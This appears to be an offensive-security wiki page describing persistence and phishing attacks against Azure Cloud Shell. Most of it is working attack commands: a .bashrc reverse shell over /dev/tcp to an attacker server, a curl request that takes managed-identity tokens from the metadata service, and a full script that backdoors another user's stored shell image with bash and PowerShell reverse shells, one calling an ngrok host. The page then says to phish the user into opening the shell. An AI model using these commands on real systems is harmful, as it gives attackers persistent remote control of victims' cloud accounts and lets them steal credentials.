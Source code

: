 # Az - Cloud Shell Persistence

## Cloud Shell Persistence

Azure Cloud Shell offers command-line access to manage Azure resources with persistent storage and automatic authentication. Attackers can exploit this by placing backdoors in the persistent home directory:

* **Persistent Storage**: Azure Cloud Shell’s home directory is mounted on an Azure file share and remains intact even after the session ends.
* **Startup Scripts**: Files like `.bashrc` or `config/PowerShell/Microsoft.PowerShell_profile.ps1` execute automatically at the start of each session, allowing for persistent execution when the cloud shell starts.

Example backdoor in .bashrc:

```bash
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```

This backdoor can execute commands even 5 minutes after the cloud shell is finished by the user.

Additionally query Azure’s metadata service for instance details and tokens:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```

### Cloud Shell Phishing

If an attacker finds other users images in a Storage Accout he has write and read access to, he will be able to download the image, **add a bash and PS backdoor into it**, and upload it back to the Storage Account so next time the user access the shell, the **commands will be automatically executed**.

- **Download, backdoor and uplaod the image:**

```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name> -s <file-share>

# Mount the image
mkdir /tmp/backdoor_img
sudo mount ./.cloudconsole/acc_carlos.img /tmp/backdoor_img
cd /tmp/backdoor_img

# Create backdoor
mkdir .config
mkdir .config/PowerShell
touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo '$client = New-Object System.Net.Sockets.TCPClient("7.tcp.eu.ngrok.io",19838);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' >> .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Unmount
cd /tmp
sudo umount /tmp/backdoor_img

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img" -s <file-share>
```

- **Then, phish the user to access https://shell.azure.com/**

